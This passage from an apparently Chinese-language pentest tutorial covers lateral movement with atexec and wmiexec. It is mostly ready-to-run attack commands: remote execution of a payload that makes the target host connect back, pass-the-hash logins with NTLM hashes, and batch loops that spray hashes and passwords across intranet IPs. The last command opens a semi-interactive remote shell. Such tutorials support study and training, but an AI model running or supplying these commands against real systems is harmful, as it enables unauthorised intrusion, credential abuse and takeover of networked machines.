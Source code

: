     atexec.exe 
    rootkit/administrator:admin!@#45@192.168.3.76 "lib8.exe" 
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213031646.png%23pic_center)-
在上图下载可执行程序情况下，在linux主机下，使用proxychains代理工具，使用atexec远程执行该程序，使主机反向回连-
**注意此处，admin!@#45密码中的"!"需要转义，否则会报错。**

    proxychains python atexec.py rootkit/administrator:admin\!@#45@192.168.3.76 "lib8.exe"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213050359.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
使用远程主机NTLM hash认证对远程主机192.168.3.76执行命令

    atexec.exe -hashes 
    :518b98ad4178a53695dc997aa02d455c rootkit/administrator@192.168.3.76 "whoami"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213105862.png%23pic_center)-
由此可以写一些简单bat脚本，如批量对内网机器遍历做hash传递验证、指定主机ntlm hash遍历验证、内网机器遍历做密码验证、指定主机密码遍历验证。

    内网机器遍历做hash传递验证,ips.txt内容为内网ip，每段一条 
    FOR /F %%i in (ips.txt) do atexec.exe -hashes :DF92E298362E3E180EC0EE7226AFB821 ./administrator@%%i  whoami 
    
    指定主机ntlm hash遍历验证，hashes.txt为已知ntlm hash内容，每段一条
    FOR /F %%i in (hashes.txt) do atexec.exe -hashes %%i ./administrator@192.168.3.76  whoami  
    
    内网机器遍历做密码验证，passwords.txt为已知密码内容，每段一条
    FOR /F %%i in (passwords.txt) do atexec.exe  ./administrator:%%i@192.168.3.76  whoami 
    
    指定主机密码遍历验证,ips.txt内容为内网ip，每段一条
    FOR /F %%i in (ips.txt) do atexec.exe ./administrator:password123@%%i  whoami  
    
        

#### wmiexec

wmiexec是一个即有全交互也有半交互的远程命令执行工具，可运用于多种环境，包括webshell环境、rdp环境、socks环境等。

在webshell下，使用域管理员账号密码认证对远程主机192.168.3.76执行命令

    wmiexec.exe 
    rootkit/administrator:admin!@#45@192.168.3.76 whoami
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213202941.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在socks网络环境下(图中所示socks工具为proxifier)，使用NTLM HASH认证对远程主机192.168.3.76执行命令

    wmiexec.exe -hashes :DF92E298362E3E180EC0EE7226AFB825 ./administrator@192.168.3.76 whoami
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213216366.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在socks网络环境下(图中所示socks工具为proxifier)，使用NTLM HASH认证对远程主机192.168.3.76执行命令，wmiexec 产生一个伪交互的cmd shell

    wmiexec.exe -hashes :DF92E298362E3E180EC0EE7226AFB825 ./administrator@192.168.3.76
    